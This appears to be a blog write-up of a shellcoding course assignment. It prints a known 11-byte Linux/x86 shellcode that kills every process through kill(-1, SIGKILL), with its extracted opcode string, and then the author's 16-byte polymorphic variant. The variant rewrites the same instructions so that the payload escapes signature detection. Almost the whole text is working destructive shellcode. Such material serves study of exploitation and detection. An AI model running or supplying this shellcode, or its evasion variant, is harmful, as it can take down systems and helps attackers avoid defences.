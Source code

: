 ~~~ nasm
;By Kris Katterjohn 11/13/2006

;11 byte shellcode to kill all processes for Linux/x86
global _start

section .text

_start:

  ; kill(-1, SIGKILL)
  push byte 37
  pop eax
  push byte -1
  pop ebx
  push byte 9
  pop ecx
  int 0x80
~~~

#### Compiling the Original Shellcode

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ ./compile.sh kill-all-processes-original
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\x6a\x25\x58\x6a\xff\x5b\x6a\x09\x59\xcd\x80"
[+] Size: 11 bytes
skawa@ubuntu:~/Desktop/code/assignment/assignment6$
~~~

#### Polymorphic Shellcode
The polymorphic version of the shellcode I have created can be found <a href="https://github.com/skahwah/slae/blob/master/assignment6/kill-all-processes.nasm">here</a>

Below is an explanation of the changes.

~~~ nasm
;kill-all-processes.nasm
;this kills all processes on the local system
;Linux x86
;Saniv Kawa (@skawasec)
;www.popped.io
;December 6, 2016
;16 bytes

global _start

section .text

_start:

  push byte 9
  mov al, 9  ;arithmetic for AL register
  mov cl, 4 ;arithmetic for AL register
  mul cl ;arithmetic for AL register. AL now contains 36
  inc al ;AL now contains the correct syscall number, 37
  pop ecx ;ECX contains 9
  push byte -1
  pop ebx
  int 0x80
~~~
